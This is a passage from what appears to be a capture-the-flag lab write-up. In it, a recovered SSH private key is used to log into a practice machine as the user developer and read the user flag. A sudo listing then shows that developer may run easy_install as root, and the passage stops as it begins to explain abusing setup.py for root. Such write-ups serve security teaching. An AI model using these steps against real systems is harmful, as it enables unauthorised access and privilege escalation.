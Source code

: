 The public key matches the `authorized_keys` file:

```

developer@updown:/home/developer/.ssh$ md5sum authorized_keys  id_rsa.pub 
4ecdaf650dc5b78cb29737291233fe99  authorized_keys
4ecdaf650dc5b78cb29737291233fe99  id_rsa.pub

```

So the private key should be good enough to get a shell as developer, and it does:

```

oxdf@hacky$ vim ~/keys/updown-developer
oxdf@hacky$ chmod 600 ~/keys/updown-developer
oxdf@hacky$ ssh -i ~/keys/updown-developer developer@siteisup.htb
...[snip]...
developer@updown:~$

```

And the user flag:

```

developer@updown:~$ cat user.txt
2e025639************************

```

## Shell as root

### Enumeration

developer is able to run `easy_install` as root without a password:

```

developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install

```

### Exploit easy\_install

#### Background

`easy_install` is a now deprecated way to install packages in Python. At it’s heart, it’s running a `setup.py` script which promises to take certain actions to install the package.
